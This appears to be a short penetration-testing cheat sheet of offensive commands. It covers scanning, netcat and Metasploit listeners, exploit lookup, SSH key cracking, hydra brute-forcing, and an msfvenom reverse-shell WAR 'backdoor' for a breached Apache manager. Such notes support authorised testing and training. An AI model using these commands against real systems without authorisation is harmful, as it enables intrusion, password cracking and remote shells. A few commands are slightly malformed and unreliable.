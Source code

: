 # Starting Penetration

```
msfconsole
```

To Open metasploit console

## Port Scan

```
nmap -sV -sC -O -p- --min-rate 20000 IP
```

Alternate

```
nmap -T4 -A -v IP
```

-O - OS Detection

-p- - to scan all ports

20k rate probably way too high. Reduce to reduce risk of alerting firewall.

-sS - for TCP SYN Scan

-sV - to show services related to each port


### Get Version of Service

NetCat

```
nc IP PORT
```

Listen on port
```
nc IP PORT -lvnp
```

Listen throuh metsploit
```
use exploit/multi/handler
```

### Find Exploits with SearchSploit

```
searchsploit servicename version
```

### Add new modules to metasploit from exploit-db

Get path from searchsploit

```
curl http://www.exploit-db.com/download/ID  /root/.msf4/modules/exploits/custom/CUSTOMFILENAME
```



### Metadata

```
exiftool file
```

### Web Server:

```
python3 -m http.server PORT
```

Retrieve:
```
wget http://IP:PORT/PATH
```

## SSH

### SSH with RSA file

```
ssh -i /path/to/file user@IP
```
### Convert id_rsa to crackable

```
python3 /usr/share/john/ssh2john.py id_rsa > file.txt
```

#### Brute Forcing Passwords

```
hydra -l USER -P /path/to/wordlist ssh://IP
```

https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials


## Apache

### After /manager breach

#### Make Offensive WAR file

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=4449 -f war > backdoor.war
```

